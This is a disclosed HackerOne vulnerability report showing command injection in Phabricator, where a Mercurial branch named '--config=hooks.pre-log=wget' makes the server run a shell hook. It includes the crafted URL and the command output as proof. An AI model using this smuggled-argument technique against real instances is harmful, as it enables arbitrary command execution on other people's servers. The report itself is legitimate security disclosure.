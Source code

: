 # Command injection on Phabricator instance with an evil hg branch name

## Report Details
- **Report ID**: 288704
- **URL**: https://hackerone.com/reports/288704
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-11-09T08:57:35.077Z
- **Disclosed**: 2017-11-11T00:42:44.118Z

## Reporter
- **Username**: pnig0s
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: phabricator

## Vulnerability Information
Hi phabricator,

I found an evil branch name of hg a repo can lead to arbitrary command injection on phabricator instance.

Here is the reproduction steps:
1. Monitor a remote mercurial repo with phabricator;
2. Create a branch and called "--config=hooks.pre-log=wget" on the remote;
3. After phabricator update the remote repo,visit the history page of that crafted branch;
```
http://instanceip/source/hgclone/history/--config%253Dhooks.pre-log%253Dwget/
```
4. It will raise an error like below and the wget command will be executed;
5. I test this issue both on my own server instance and the cloud instance with mercurial 4.4(latest) installed(on my server).

```
Command failed with error #255! COMMAND hg --config ui.ssh='/data/phabricator/phabricator/bin/ssh-
connect' log --debug --template '{node};{parents}\n' --limit 101 -b '--config=hooks.pre-log=wget' --rev 
'reverse(ancestors('\''84e8c5feb4faba2f1b230575e747c3bffe7c7a3c'\''))' STDOUT running hook pre-log: 
wget STDERR not trusting file /var/repo/3/.hg/hgrc from untrusted user root, group root not trusting file 
/var/repo/3/.hg/hgrc from untrusted user root, group root wget: missing URL Usage: wget [OPTION]... 
[URL]... Try `wget --help' for more options. abort: pre-log hook exited with status 1
```
The root cause is that the branch name inject to the hg command directly and that define a hook will run before the hg log command been executed.
Thanks!

## Attachments
- evil_hg_branch_name_command_injection.png
- evil_hg_branch_name_command_injection_cloud.png
